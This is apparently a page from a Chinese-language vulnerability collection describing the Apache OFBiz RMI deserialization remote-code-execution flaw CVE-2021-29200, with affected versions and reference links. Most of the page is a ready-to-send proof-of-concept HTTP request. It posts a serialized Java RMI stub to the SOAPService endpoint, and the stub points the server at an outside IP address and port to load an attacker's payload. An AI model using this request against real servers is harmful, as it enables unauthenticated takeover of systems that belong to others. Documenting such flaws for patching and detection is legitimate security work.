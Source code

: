 [Apache OFBiz RMI反序列化漏洞 CVE-2021-26295](Apache%20OFBiz%20RMI反序列化漏洞%20CVE-2021-26295.md)# Apache OFBiz RMI Bypass RCE CVE-2021-29200

## 漏洞描述

由于Apache OFBiz存在Java RMI反序列化漏洞，未经身份验证的用户可以执行RCE攻击，导致服务器被接管。

参考链接：

- https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw
- https://xz.aliyun.com/t/9556

## 漏洞影响

```
Apache OFBiz < 17.12.07
```

## 漏洞复现

poc：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: xxx
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 877


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>ACED0005737200326A617661782E6D616E6167656D656E742E72656D6F74652E726D692E524D49436F6E6E656374696F6E496D706C5F5374756200000000000000020200007872001A6A6176612E726D692E7365727665722E52656D6F746553747562ECC98BE1651A0200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707738000A556E6963617374526566000F3130342E3135362E3233312E3135300000270FFFFFFFFFEF34D1DB00000000000000000000000000000078</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```

